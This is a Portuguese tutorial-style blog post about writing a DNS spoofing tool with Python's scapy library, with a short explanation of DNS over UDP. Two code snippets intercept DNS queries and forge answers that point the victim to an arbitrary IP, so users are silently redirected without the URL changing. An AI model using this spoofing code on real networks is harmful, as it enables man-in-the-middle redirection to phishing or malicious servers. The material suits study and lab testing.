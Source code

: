 Se importarmos o módulo do scapy podemos mofificar,remontar, extrair e enviar o pacote como se fosse o pacote original. Com essa ideia resolvi criar meu próprio **dnsspoof** que iria criar um handler da porta 53 UDP para filtrar apenas os pacotes que seria requisições de **DNS** e dessa forma permitindo fazer redirecionamento para qualquer **webservice**. O scapy oferece suporte para detectar qualquer tipo de pacotes sem precisar fazer na mão, inclusive é possível saber até a camada antes de fazer qualquer modificação no pacote evitando pacotes quebrados por não ser do mesmo tipo.

OBS:
>
Só lembrando que tive extrema dificudade para rodar esse código **threaded** na marioria das tentativas a aplicação congelou (sinceramente não sei o porque talvez seja por ta usando esse tipo de filtro), foi preciso rodar em outra Process thread separadamente..

### DNS (Domain Name System)

Se você não conhece TCP/IP sugiro fortemente que leia o livro "tcp illustrated" ou leia a **RFC** mesmo sendo um livro antigo, não mudou muita coisa, só foi acrescentada algumas camadas. defição:
>
The Domain Name System (DNS) is a hierarchical decentralized naming system for computers, services, or other resources connected to the Internet or a private network. It associates various information with domain names assigned to each of the participating entities.

O protocolo DNS usa UDP ( User Datagram Protocol ), não sei se ta certo( pesquise sobre isso e corrija se necessário) mas o protocolo UDP é usado pois as requisições precisam ser rapidas e como o TCP é bem mais chato de trabalhar pois são mais "seguros", a melhor opção é usar UDP mesmo. A porta associada como já citei acima é a 53 para server requests, os DNS queries  são requisições enviada como se fosse um pedido um request enviado pelo cliente o server precisa mandar outro packet UDP reply. DNS packets overview:

![DNS](/images/posts/DNS/dnspackets.png)

Com scapy module podemos reescrever esse tipo de requisição muito fácil, e posteriomente montar um novo pacote contendo a requição alterada. Dessa forma, podemos desmontar o pacote que o cliente enviou e pegar apenas a query onde contem o domain que ele deseja acessar tipo **example.com**.

``` python
def callback(self,packet):
    payload = packet.get_payload()
    pkt = IP(payload)
    if not pkt.haslayer(DNSQR):
        packet.accept()
    else:
        print(pkt[DNS].qd.qname[:len(str(pkt[DNS].qd.qname))-1]) # www.example.com
```

Sabendo disso, podemos remontar o packet modificando apenas **rdata** contendo o endereço IP do web server, podemos ainda redicionar o cliente para qualquer webserver sem alterar na URL no browser.

``` python
spoofed_pkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)/\
UDP(dport=pkt[UDP].sport, sport=pkt[UDP].dport)/\
DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,\
an=DNSRR(rrname=pkt[DNS].qd.qname, ttl=10, rdata='IP TO REDIRECT'))
packet.set_payload(str(spoofed_pkt))
send(spoofed_pkt,verbose=False)
packet.accept()
```
